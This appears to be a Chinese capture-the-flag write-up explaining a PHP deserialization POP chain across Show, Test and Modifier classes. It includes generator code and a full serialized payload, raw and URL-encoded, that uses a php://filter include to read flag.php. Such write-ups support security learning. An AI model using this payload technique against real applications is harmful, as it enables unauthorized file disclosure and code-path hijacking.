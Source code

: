 理一下思路
一开始是找能获得flag的地方：`Modifier()`的`__invoke()`可以实现文件包含
再找能触发`__invoke`的地方：`Test`类的`__get()`会以函数形式调用$p，也就触发了__invoke()
再找能触发`__get`的地方：`Show`类的`__tostring`访问`$str`的`$source`属性，如果str不存在该属性就会触发`__get`
再找能触发`__tostring`的地方：`Show`类的`__wakeup`会调用preg_match()进行正则匹配，也就将$source当作字符串处理，如果给source赋值为类的话就会触发`__tostring`

那么咱们pop链就是：`Show类__wakeup() -> Show类__tostring() -> Test类__get() ->Modifier类__invoke()`

构造payload

```php
# 这里先序列化实例化的Show($a)从而调用__wakeup,$a就会被赋值给source
# 而$a作为一个实例化的Show类，被当作字符串处理就触发_tostring()
# 再令$a->str=Test(),而Test()中不存在source属性，就会触发_get()
# $a->str->p=Modifier()，触发_get()后，会返回 $p();即将Modifier当作函数调用，从而触发其中的__invoke()，最终获得flag
<?php
highlight_file(__FILE__);

class Modifier {	# include()的部分，利用伪协议读取flag.php
    protected  $var = "php://filter/convert.base64-encode/resource=flag.php";
}

class Show{		# source
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }

}

class Test{	
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}

$a = new show('hhh');
echo urlencode(serialize(new Show($a)));
```

```php
payload：
O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";s:3:"hhh";s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"*var";s:52:"php://filter/convert.base64-encode/resource=flag.php";}}}s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:6:"*var";s:52:"php://filter/convert.base64-encode/resource=flag.php";}}}

url编码后：O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A3%3A%22hhh%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A52%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D
```
